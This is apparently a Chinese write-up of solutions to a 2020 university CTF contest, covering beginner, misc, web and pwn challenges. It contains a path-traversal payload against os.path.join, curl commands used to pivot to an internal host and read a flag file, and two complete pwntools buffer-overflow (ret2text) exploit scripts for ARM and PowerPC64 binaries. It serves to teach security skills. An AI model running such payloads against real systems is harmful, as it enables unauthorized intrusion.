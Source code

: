 ## Noob

### 签到题

输入上面的题目介绍就能拿分了，即 `N3EPu{Le4rn_ev3ry_dAy}`

### 来学习如何使用 nc 吧

题目环境在

https://github.com/binLep/NEEPU-Sec-Monthly-Contest/blob/master/2020-06/Noob/test_nc.zip

常驻签到题，nc 连接完终端后输入 `cat flag` 即可得到 flag

## Misc

### Base64

base64 会将每三个字符编码成四个字符，不够的用 = 补全，所以编码后长度应该是四的倍数

`TkUzzUHV7NTI4ZTBhNThhYzgyYjI3NzM1YzM1MWViMjgyNWY3ZjV9`

长度不对

编码 NE3Pu 结果为 TkUzUHV7，发现多了一个 z ，去掉后可正常解码 

flag：NE3Pu{528e0a58ac82b27735c351eb2825f7f5}

### WaterMarkH

这个题的文件名本来是

JOMIL)B`K37[H~39046G]~D_WaterMark.jpg

带有盲水印工具的生成标志，但是上题的时候被改成了 1.jpg

发现后又改了回来，不过是直接把题目名改成了 WaterMarkH 了。

使用 WaterMarkH 解码直接获得 flag

## Web

### pilipili

禁用了 F12 和右键

可以使用 view-source 读源代码 或者 抓包 或者 先打开控制台再打开网页

打开页面10秒会弹出一个提示框，flag 跟提示框的代码写在一个 js 文件中

做了简单混淆，但是字符串没有变化，解完混淆后是标准的 flag 格式

### poem

给了部分源码

`os.path.join(str1, str2)`

当 str2 以 / 开头，会只返回 str2

payload : `?name=/flag`

### exec_cmd

开始题目缺少一些描述，后来加上了 hint

hint: flag 在网站根目录下的 flag.txt 中

题目是由两台机器组成的内网，都运行着 web 服务，跳板机对外开放可以执行命令

在跳板机网站根目录没发现 flag 于是执行命令

`cat /etc/hosts`

主机 IP 为 173.0.111.4

探测 D 段相邻 IP 是否存在存活主机

同时可以看 `/proc/net/arp` 有无通信记录

`curl 173.0.111.5` 发现 phpinfo

payload : `curl 173.0.111.5/flag.txt`

## Pwn

### armhf-ret2text

checksec 可以看出这个是 32 位小端序的程序

```bash
Arch:     arm-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x10000)
```

看源码就是基础的 ret2text，正常做就行

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+0h] [bp-54h]

  setbuf((FILE *)stdin, 0);
  setbuf((FILE *)stdout, 0);
  setbuf((FILE *)stderr, 0);
  puts("binLep is slacking off..\nPlease input something");
  read(0, &buf, 0x70u);
  puts("I have received your message, Thank you!");
  return 0;
}
```

解题脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

debug = 2
qemu = 'qemu-arm'
libc_path = '/usr/arm-linux-gnueabihf'

context(arch="arm", endian='el', os="linux")
context.log_level = "debug"
if debug == 1:
    p = process([qemu, '-g', '12345', '-L', libc_path, './pwn'])
elif debug == 2:
    p = process([qemu, '-L', libc_path, './pwn'])
else:
    p = remote('localhost', 10003)
addr_system = 0x10540

pd = 'a' * 0x54
pd += p32(addr_system)
p.sendlineafter('thing\n', pd)
p.interactive()
```

### powerpc64-ret2text

checksec 查看程序可以看出这是一个 64 位大端序的程序

所以代码里要加个 `context.endian = 'be'`

源码跟上面差不多，不过 IDA 不能反汇编，拿 Ghidra 来看比较方便

```c
undefined8 main(void)

{
  undefined auStack560 [0x228];
  
  00000018.plt_call.setbuf@@GLIBC_2.3(stdin,(char *)0x0);
  00000018.plt_call.setbuf@@GLIBC_2.3(stdout,(char *)0x0);
  00000018.plt_call.setbuf@@GLIBC_2.3(stderr,(char *)0x0);
  00000018.plt_call.puts@@GLIBC_2.3("binLep is really slacking off..");
  00000018.plt_call.read@@GLIBC_2.3(0,auStack560,0x300);
  00000018.plt_call.puts@@GLIBC_2.3("wuwuwu");
  return 0;
}
```

还有一点就是 ppc64 需要向后覆盖 0x18 位，而不是正常的 0x8 位

解题脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

debug = 2
qemu = 'qemu-ppc64'
libc_path = '/usr/powerpc64-linux-gnu/'

context(endian='be', os="linux")
context.log_level = "debug"
if debug == 1:
    p = process([qemu, '-g', '12345', '-L', libc_path, './pwn'])
elif debug == 2:
    p = process([qemu, '-L', libc_path, './pwn'])
else:
    p = remote('localhost', 9999)
addr_system = 0x100007e8

pd = 'a' * 0x240
pd += p64(addr_system)
p.sendlineafter('off..\n', pd)
p.interactive()
```

